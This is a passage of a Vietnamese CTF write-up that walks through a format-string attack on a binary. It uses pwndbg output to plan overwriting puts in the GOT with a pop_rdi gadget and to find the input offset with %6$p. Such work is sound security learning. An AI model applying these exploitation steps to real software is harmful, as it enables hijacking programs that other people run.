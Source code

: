 Ở đây ta thấy sau hàm printf có hàm puts, trông khá vô nghĩa, mục tiêu đầu tiên là replace puts_got => địa chỉ pop_rdi 

Đặt breakpoint và check xem khi này thì puts_got đang trỏ đến địa chỉ gì khi mà puts đã được gọi 1 lần trước đó.



```shell
pwndbg> x/8z 0x404018
0x404018 <puts@got.plt>:        0x30    0x10    0x40    0x00    0x00    0x00    0x00    0x00
pwndbg> c
Continuing.
Send your string to be printed:
%6$p
0xa70243625

Breakpoint 3, 0x0000000000401272 in main ()

```

```shell
─────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdf50 ◂— 0xa70243625 /* '%6$p\n' */
01:0008│     0x7fffffffdf58 ◂— 0x0
... ↓        6 skipped
───────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0         0x401272 main+156
   1   0x7ffff7db7d90 __libc_start_call_main+128
   2   0x7ffff7db7e40 __libc_start_main+128
   3         0x40111e _start+46
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/8z 0x404018
0x404018 <puts@got.plt>:        0xd0    0xee    0xe0    0xf7    0xff    0x7f    0x00    0x00
```

Có 2 vấn đề quan trọng ở trên:

* Trước khi đựoc gọi từ lần đầu tiên thì puts_got sẽ chứa địa chỉ 3 bytes cụ thể là **0x00401030** này chính là địa chỉ của hàm tìm kiếm địa chỉ thực, sau đấy từ lần thứ 2 thì got đã update => **0x00007ffff7e0eed0** 6 bytes. Trong khi thg **$n** của format string chỉ ghi được 4 bytes do đó ta phải ghi 2 lần 

* Ta thấy khi nhập **%6$p** thì giá trị được in ra nó khớp với giá trị tại cái chỗ ta nhập, theo như kinh nghiệm của người anh mình tham khảo thì ***thường là chuỗi mình nhập vào sẽ là tham số thứ 6 của hàm prinf***

OKe, giờ ta xem:

```python
>>> 0x0000000000401323
4199203

```
